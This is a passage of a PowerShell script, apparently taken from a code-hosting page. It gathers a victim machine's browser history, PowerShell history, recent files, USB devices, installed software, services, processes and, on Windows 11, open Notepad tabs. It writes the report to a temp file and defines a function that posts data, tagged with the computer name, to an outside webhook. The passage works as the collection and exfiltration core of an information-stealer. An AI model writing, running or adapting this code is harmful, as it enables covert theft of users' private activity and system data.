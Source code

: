 Browser History
---------------------------------------
$entry

Powershell History
---------------------------------------
$pshistory

==================================================================================================================================
Recent File Changes Information
----------------------------------------------------------------------------------------------------------------------------------
$RecentFiles

==================================================================================================================================
USB Information
----------------------------------------------------------------------------------------------------------------------------------
$usbdevices

==================================================================================================================================
Software Information
----------------------------------------------------------------------------------------------------------------------------------
$software

==================================================================================================================================
Running Services Information
----------------------------------------------------------------------------------------------------------------------------------
$service

==================================================================================================================================
Current Processes Information
----------------------------------------------------------------------------------------------------------------------------------
$process

=================================================================================================================================="

$outpath = "$env:TEMP/systeminfo.txt"
$infomessage | Out-File -FilePath $outpath -Encoding ASCII -Append
$infomessage1 | Out-File -FilePath $outpath -Encoding ASCII -Append
$infomessage2 | Out-File -FilePath $outpath -Encoding ASCII -Append

if ($OSString -like '*11*'){
    EnumNotepad
}
else{
    "no notepad tabs (windows 10 or below)" | Out-File -FilePath $outpath -Encoding ASCII -Append
}


function Send-WebhookMessage {
    param (
        [string]$content
    )
$jsonsys = @{"username" = "$env:COMPUTERNAME" ;"content" = "$content"} | ConvertTo-Json
Invoke-RestMethod -Uri $hookurl -Method Post -ContentType "application/json" -Body $jsonsys
}
